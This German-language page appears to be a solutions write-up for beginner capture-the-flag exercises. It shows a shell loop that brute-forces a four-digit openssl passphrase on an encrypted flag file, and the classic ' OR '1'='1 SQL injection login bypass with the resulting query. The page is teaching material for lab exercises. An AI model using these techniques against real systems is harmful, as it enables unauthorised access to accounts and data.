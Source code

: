 ```yaml
---
sidebar_position: 3
Title: Lösungen
---
```


# Lösungen

## Bruteforce

### Erklärung

Das untenstehende Script geht alle möglichen Zahlenkombinationen (0 - 9999) durch, bis das Passwort erraten worden ist. Wenn die Zahlenkombination korrekt ist, wird die Zahlenkombination ausgegeben. Wenn die Zahlenkombination nicht korrekt ist, wird der Vorgang wiederholt.

Es wird openssl mit der Methode aes-256-cbc verwendet. Bei jeder Iteration wird eine höhere Zahl alls passphrase eingegeben. Sobald das entschlüsselte Resultat im Format der gewünschten Flagge ist, wird die Schleife gestoppt und die entschlüsselte Datei mit der Flagge in `out.txt` gespeichert.

:::note

Die Zahlenkombination ändert sich jedes Mal, wenn dieser Container gestartet wird. Nur weil ein Mal eine Kombination funktioniert hat, wird sie ein anderes Mal nicht dieselbe sein.

:::

### Script

```bash title="solution.sh"
for n in $(seq 10000); do
    i=$(($n - 1))
    DECRYPTED=$(cat flag.txt.enc | openssl aes-256-cbc -d -a -pass pass:$i)
    if [ $DECRYPTED == "flag{bruteforce_challenge}" ]; then
        echo "The pin is: $i"
        echo $DECRYPTED >out.txt
        break
    else
        echo "Wrong password: $i"
    fi
done
```

Dieses Script muss sich in der gleichen Directory befinden wie `flag.txt.sh`. Im Normalfall müssen noch Rechte and die Datei ausgeteilt werden, damit diese ausgeführt werden kann. (`chmod +x meineDatei.bsp`)

:::caution

Bitte beachten, dass dieses Script nicht in BASH, sondern in ASH geschrieben ist. Das ist die Shell für die Alpine distribution.

:::


## SQL injection

### Erklärung

Bei einem Eingabefeld, welches anfällig für SQL-Injection ist, wird normalerweise der Inhalt vom Feld in einer Variable gespeichert. Diese Variable wird dann direkt in den String, welcher die Query enthaltet verkettet (concatenate). Deshalb kann man mit ein wenig Geschick eine Eingabe machen, welche Teile eines SQL Befehls beinhaltet.

Das eingegebene wird so mit in die Query genommen und von der Datenbank ausgeführt. So kann man Abfrageresultate oder sogar den Datenbestand manipulieren.

```sql
SELECT username, password FROM users
WHERE username = '[Eingabe Nutzername]'
HAVING password = '[Eingabe Passwort]';
```

### Eingaben

Username:

```
admin
```

Password:

```
' OR '1'='1
```

Lösungsquery, welche im Hintergrund dann ausgeführt wird:

```sql
SELECT username, password FROM users
WHERE username = 'admin'
HAVING password = '' OR '1'='1';
```
